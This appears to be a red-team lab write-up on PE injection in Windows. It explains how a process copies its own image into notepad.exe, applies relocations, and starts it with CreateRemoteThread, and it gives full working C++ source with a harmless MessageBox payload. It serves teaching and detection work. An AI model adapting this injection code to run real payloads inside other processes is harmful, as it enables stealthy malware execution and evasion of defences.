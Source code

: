 ```yaml
---
layout: post
title: "2024-06-18-pe injection executing pes inside remote processes"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pe-injection-executing-pes-inside-remote-processes/
---
```


---
description: Code Injection
---

# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe (PE) into another running process.

```
Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).
```

## Overview

In this lab, I wrote a simple C++ executable that self-injects its PE into a target process. This executable contains 2 functions:

* `main` - this is the function that performs the self-injection of the PE image into a specified remote/target process, which is going to be `notepad.exe` in this case;
* `InjectionEntryPoint` - this is the function that will get executed by the target process (notepad) once notepads gets injected with our PE.&#x20;
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

## Technique Overview

Inside the current process, that's doing the self-injection of its PE:

1. Get the image base address `imageBase`
2. Parse the PE headers and get its `sizeOfImage`
3. Allocate a block of memory (size of PE image retrieved in step 1). Let's call it `localImage`
4. Copy the image of the current process into the newly allocated local memory `localImage`
5. Allocate a new memory block (size of PE image retrieved in step 1) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
6. Calculate the delta between memory addresses `targetImage` and `imageBase`, let's call it `deltaImageBase`&#x20;
7. Relocate/rebase the PE that's stored in `localImage` to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
8. Write the patched PE into the `targetImage` memory location using `WriteProcessMemory`
9. Create remote thread and point it to `InjectionEntryPoint` function inside the PE target process

## Walkthrough

Getting `sizeOfImage` of the current process (local process) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](<../../.gitbook/assets/image (206).png>)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](<../../.gitbook/assets/image (207).png>)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](<../../.gitbook/assets/image (208).png>)

Calculate the delta between `0x000001bfc0c20000` and `0x000001813acc0000` and perform [image base relocations](process-hollowing-and-pe-image-relocations.md#relocation). Once that's done, we can move over our rebased PE from `0x000001813acc0000` to `0x000001bfc0c20000` in the remote process using `WriteProcessMemory`.&#x20;

Below shows that our imaged has now been moved to the remote process:

![](<../../.gitbook/assets/image (209).png>)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad (PID 11068) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

Below is the commented code that performs the PE injection:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}
@spotheplanet
